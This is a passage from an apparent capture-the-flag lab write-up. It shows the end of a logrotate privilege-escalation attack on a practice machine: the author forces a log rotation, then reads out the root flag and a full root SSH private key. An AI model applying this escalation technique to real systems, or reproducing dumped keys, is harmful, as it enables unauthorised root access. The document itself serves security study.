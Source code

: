 However, just running the exploit was not enough.  In order to execute my script, I had to force log rotation by writing to the log a valid entry.  I simply copied the valid entry from the backup in the same folder:

```text
reader@book:~/backups$ cat access.log.1
192.168.0.104 - - [29/Jun/2019:14:39:55 +0000] "GET /robbie03 HTTP/1.1" 404 446 "-" "curl"
reader@book:~/backups$ cp access.log.1 access.log
```

### Root.txt

It was time to collect my loot and see if I got the output I expected.

```text
reader@book:/dev/shm$ cat test 
84da92adf998a1c7231297f70dd89714
```

The first file indeed contained the root flag!

```text
reader@book:/dev/shm$ cat test2
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsxp94IilXDxbAhMRD2PsQQ46mGrvgSPUh26lCETrWcIdNU6J
cFzQxCMM/E8UwLdD0fzUJtDgo4SUuwUmkPc6FXuLrZ+xqJaKoeu7/3WgjNBnRc7E
z6kgpwnf4GOqpvxx1R1W+atbMkkWn6Ne89ogCUarJFVMEszzuC+14Id83wWSc8uV
ZfwOR1y/Xqdu82HwoAMD3QG/gu6jER8V7zsC0ByAyTLT7VujBAP9USfqOeqza2UN
GWUqIckZ2ITbChBuTeahfH2Oni7Z3q2wXzn/0yubA8BpyzVut4Xy6ZgjpH6tlwQG
BEbULdw9d/E0ZFHN4MoNWuKtybx4iVMTBcZcyQIDAQABAoIBAQCgBcxwIEb2qSp7
KQP2J0ZAPfFWmzzQum26b75eLA3HzasBJOGhlhwlElgY2qNlKJkc9nOrFrePAfdN
PeXeYjXwWclL4MIAKjlFQPVg4v0Gs3GCKqMoEymMdUMlHoer2SPv0N4UBuldfXYM
PhCpebtj7lMdDGUC60Ha0C4FpaiJLdbpfxHase/uHvp3S/x1oMyLwMOOSOoRZZ2B
Ap+fnQEvGmp7QwfH+cJT8ggncyN+Gc17NwXrqvWhkIGnf7Bh+stJeE/sKsvG83Bi
E5ugJKIIipGpZ6ubhmZZ/Wndl8Qcf80EbUYs4oIICWCMu2401dvPMXRp7PCQmAJB
5FVQhEadAoGBAOQ2/nTQCOb2DaiFXCsZSr7NTJCSD2d3s1L6cZc95LThXLL6sWJq
mljR6pC7g17HTTfoXXM2JN9+kz5zNms/eVvO1Ot9GPYWj6TmgWnJlWpT075U3CMU
MNEzJtWyrUGbbRvm/2C8pvNSbLhmtdAg3pDsFb884OT8b4arufE7bdWHAoGBAMjo
y0+3awaLj7ILGgvukDfpK4sMvYmx4QYK2L1R6pkGX2dxa4fs/uFx45Qk79AGc55R
IV1OjFqDoq/s4jj1sChKF2+8+JUcrJMsk0WIMHNtDprI5ibYy7XfHe7oHnOUxCTS
CPrfj2jYM/VCkLTQzdOeITDDIUGG4QGUML8IbM8vAoGBAM6apuSTzetiCF1vVlDC
VfPEorMjOATgzhyqFJnqc5n5iFWUNXC2t8L/T47142mznsmleKyr8NfQnHbmEPcp
ALJH3mTO3QE0zZhpAfIGiFk5SLG/24d6aPOLjnXai5Wgozemeb5XLAGOtlR+z8x7
ZWLoCIwYDjXf/wt5fh3RQo8TAoGAJ9Da2gWDlFx8MdC5bLvuoOX41ynDNlKmQchM
g9iEIad9qMZ1hQ6WxJ8JdwaK8DMXHrz9W7yBXD7SMwNDIf6u1o04b9CHgyWXneMr
nJAM6hMm3c4KrpAwbu60w/AEeOt2o8VsOiusBB80zNpQS0VGRTYFZeCF6rKMTP/N
WU6WIckCgYBE3k00nlMiBNPBn9ZC6legIgRTb/M+WuG7DVxiRltwMoDMVIoi1oXT
ExVWHvmPJh6qYvA8WfvdPYhunyIstqHEPGn14fSl6xx3+eR3djjO6J7VFgypcQwB
yiu6RurPM+vUkQKb1omS+VqPH+Q7FiO+qeywqxSBotnLvVAiaOywUQ==
-----END RSA PRIVATE KEY-----
```

And file number two also contained the root SSH key.  The exploit had worked without too much fuss, except for figuring out how to make `logrotate` run.  I wasn't entirely certain of the interval that was set for `access.log` to be backed up since I didn't ever see it's configuration file. 
